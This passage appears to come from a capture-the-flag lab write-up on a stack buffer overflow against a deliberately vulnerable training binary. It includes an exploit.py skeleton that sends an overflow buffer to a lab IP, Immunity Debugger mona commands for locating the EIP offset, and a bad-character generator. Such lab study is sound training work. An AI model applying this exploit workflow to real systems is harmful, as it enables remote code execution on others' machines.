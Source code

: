 * The fuzzer script keeps sending these long strings, until it crashes at 2000 bytes.

* We can create ```exploit.py``` now:

```python
import socket

ip = "10.10.36.72"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
#update offset
overflow = "A" * offset
retn = ""
#set to "BBBB"
padding = ""
payload = ""
#insert generated payload in var
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

* Now, we can run the command to generate a string of length 400 bytes more than the string that crashed the server.

* The output should be copied and placed in the payload variable of ```exploit.py```.

* Before running ```exploit.py```, we have to always re-open oscp.exe in Immunity Debugger and run the binary again; then run the exploit script (which crashes the server).

* Run another command in the command input box in Immunity Debugger to change distance to pattern length:

  ```!mona findmsp -distance 2400```

* This generates a log window with command output; it includes the EIP offset in the form of the pattern ```EIP contains normal pattern``` - we need to note the offset at end.

* Now, we need to set offset variable to EIP offset value, set payload variable to empty string, and retn variable to "BBBB".

* After restarting oscp.exe in Immunity Debugger, and then running the ```exploit.py``` script again, we can see that the EIP register (can be viewed in registers section) is overwritten with 42424242 (four B's).

* Now, we need to generate bytearray using mona, and exclude the null byte (\x00) by default - this generates a location of the bytearray file:

  ```!mona bytearray -b "\x00"```

* We can generate a string of badchars identical to bytearray using Python script:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
  ```
